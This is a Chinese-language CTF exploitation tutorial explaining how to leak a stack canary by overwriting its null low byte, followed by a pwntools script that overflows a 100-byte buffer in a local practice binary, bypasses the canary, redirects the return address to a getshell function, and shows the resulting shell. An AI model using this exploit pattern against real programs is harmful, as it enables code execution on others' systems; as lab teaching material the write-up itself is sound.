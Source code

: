 



##### 泄露栈中的 Canary

- Canary 设计为以字节 `\x00` 结尾，本意是为了保证 Canary 可以截断字符串。
- 泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。
- 这种利用方式需要存在合适的输出函数，并且可能需要先溢出泄露 Canary，之后再次溢出控制执行流程。

```python
#!/usr/bin/env python
from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2') # pwnlib.tubes.process.process
get_shell = ELF("./ex2").sym["getshell"]
print("get_shell:", type(get_shell), hex(get_shell)) # get_shell: <class 'int'> 0x80491b2
ret = io.recvuntil("Hello Hacker!\n") # <class 'bytes'> b'Hello Hacker!\n'

# leak Canary
payload = b"A" * 100 # buf[100] in .c, lead to stack overflow
io.sendline(payload) # pwnlib.tubes.tube.tube.sendline # 这里会以\n结尾 即 0xa # 总共发送的payload长度为 101 bytes
io.recvuntil("A" * 100) # recv output of printf(buf) in .c
recv_v = io.recv(4)

# 这里减去0xa是为了减去上面 io.sendline(payload) 最后的换行符，得到真正的 Canary
Canary = u32(recv_v) - 0xa 
log.info("Canary:" + hex(Canary))

# Bypass Canary
# as the stack shown in IDA: [buf 100byte]-[var_C]-[12byte]-[return_address]
payload = b"\x90" * 100 + p32(Canary) + b"\x90" * 12 + p32(get_shell)
payload = b"a" * 100 + p32(Canary) + b"a" * 12 + p32(get_shell)
io.send(payload)

io.recv()

io.interactive() # 将代码交互转换为手工交互
```

运行结果：调用`vuln`函数的返回值被覆盖为`getshell`的函数地址，可以获得所在主机的稳定shell

 ```assembly
 $ python canary.py
 [*] '/home/kali/CTF/pwn/ex2'
     Arch:     i386-32-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x8048000)
 [+] Starting local process './ex2': pid 10221
 get_shell: <class 'int'> 0x80491b2
 [*] Canary:0xa5b35f00       ; 注意这里的值已经是将canary最后一个byte恢复成\x00后的原本的canary值了
 [*] Switching to interactive mode
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$ ls  ; 这里已经获取了 shell 用ls测试
 ex2.c  canary.py  core    ex2
 ```
